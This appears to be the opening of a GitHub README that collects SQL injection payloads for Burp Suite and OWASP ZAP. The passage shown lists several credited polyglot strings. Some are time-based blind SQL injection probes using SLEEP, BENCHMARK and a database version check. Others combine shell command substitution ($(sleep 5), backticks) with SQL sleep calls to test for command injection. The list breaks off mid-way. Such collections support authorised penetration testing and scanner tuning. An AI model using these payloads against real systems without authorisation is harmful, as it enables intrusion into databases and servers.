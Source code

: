 # SQL-Injection-Payloads
SQL Injection Payloads for Burp Suite, OWASP Zed Attack Proxy,...

## POLYGLOTS:
* avlidienbrunn
  * ```SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/```
* https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/
  * ```IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),​SLEEP(1)))OR"*/```
  * ```IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/```
* bl4ckh4ck5
  * ```/*$(sleep 5)`sleep 5``*/-sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"` ```
  * ```/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"` ```
* geeknik
  * ```if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/```
* 
